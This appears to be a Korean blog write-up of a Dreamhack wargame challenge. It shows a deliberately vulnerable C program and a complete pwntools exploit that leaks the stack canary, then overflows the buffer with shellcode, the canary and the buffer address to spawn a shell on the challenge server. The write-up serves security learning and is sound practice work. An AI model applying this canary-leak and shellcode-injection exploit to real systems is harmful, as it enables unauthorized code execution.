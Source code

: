 ```yaml
---
title: "[Dreamhack] Return to Shellcode 문제 풀이"
date: "2024-09-13"
tags: ["dreamhack", "system_hacking", "wargame"]
draft: false
summary: "용어: Return to Shellcode에 Canary를 곁들인."
---
```


# 문제 파악

일단 이 문제의 핵심은 canary이다. 하지만 canary의 Shellcode를 곁들인 느낌이다.

```c
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

위에 이 코드는 이 문제의 소스코드인데 간단하다.
NX가 걸려있지 않은 상태로 컴파일되는 형태이고, 첫번째 input에선 canary를 leak하고 두번째 input에선 shellcode와 더미값(SFP 포함) 그리고 leak했던 canary를 넣어주면 정상적으로 넘어갈 수 있는 문제다.

**이제 문제 분석은 끝났으니 한번 익스를 짜보자**

# 익스 코드 작성

```python
from pwn import *

p = remote('host1.dreamhack.games', 22266)
#p = process('./r2s')

context.arch = 'amd64'

p.recvuntil(b'Address of the buf: ')
buf = int(p.recvline()[:-1], 16)
leak_canary = b'A'* (88+1) # null byte

pause()

p.recvuntil(b'Input: ')
p.send(leak_canary)
p.recvuntil(leak_canary)
canary = u64(b'\x00'+p.recvn(7))
print('canary: '+hex(canary))
print('buf: '+hex(buf))


shellcode = asm(shellcraft.sh())

payload = shellcode
payload += b'A' * (88-len(shellcode))
payload += p64(canary)
payload += b'B' * 8
payload += p64(buf)
p.sendlineafter(b'Input: ', payload)

p.interactive()
```

익스 코드는 위와 같다. 간단하게 설명해보겠다.

```python
p.recvuntil(b'Address of the buf: ')
buf = int(p.recvline()[:-1], 16)
leak_canary = b'A'* (88+1) # null byte

pause()

p.recvuntil(b'Input: ')
p.send(leak_canary)
p.recvuntil(leak_canary)
canary = u64(b'\x00'+p.recvn(7))
print('canary: '+hex(canary))
print('buf: '+hex(buf))
```

이 파트는 문제파일에서 실행시 출력해주는 buf 주소 값과 BOF를 통해서 canary 값을 leak을 시킨다.
buf의 주소 값은 추후 Shellcode를 넣고 나서 다시 되돌아갈 포인트이기에 중요하다.
canary는 추후 Return Address Overwrite를 진행할때 canary 값이 깨지기에 이를 방지하고자 꼭 필요한 값이다.

하여튼 **중요한** 값을 두개를 추출한 뒤 이젠 다음 작업을 진행한다.

```python
shellcode = asm(shellcraft.sh())

payload = shellcode
payload += b'A' * (88-len(shellcode))
payload += p64(canary)
payload += b'B' * 8
payload += p64(buf)
p.sendlineafter(b'Input: ', payload)

p.interactive()
```

이 파트는 Shellcode + Canary + SFP + buf 주소를 합쳐서 input 두 개에 값을 집어넣는다.
여태까지 포너블 문제를 풀어오면서 shellcraft를 처음 써보았다.

하여튼 shellcraft로 Shellcode를 만들어주고, 맨 앞엔 Shellcode, 그 뒤엔 Shellcode의 길이 만큼 뺀 더미 값, 좀전에 추출한 Canary, SFP에 들어갈 더미, 다시 돌아갈 buf 주소로 페이로드를 구성해주었다.

**자 그러면 이제 익스를 날려보자.**

# 익스플로잇!!

![](https://i.imgur.com/VOCL5JT.png)

아\~\~\~\~주 잘되는 모습을 볼 수 있다 :)

# 느낀점

아잇,, 이거 페이로드 부분 짤 때 엄청 빡셌던 기억이 납니다.
buf 길이가 계속 자기자리 못잡고 남의 자리를 침범해서 조금 짜증났었습니다.
뭐.. 그래도 요래요래 하다보니 풀리더군요.
갠적으로 이미 배운 부분하고 융합해서 같이 할 수 있다는게 정말 좋았습니다.
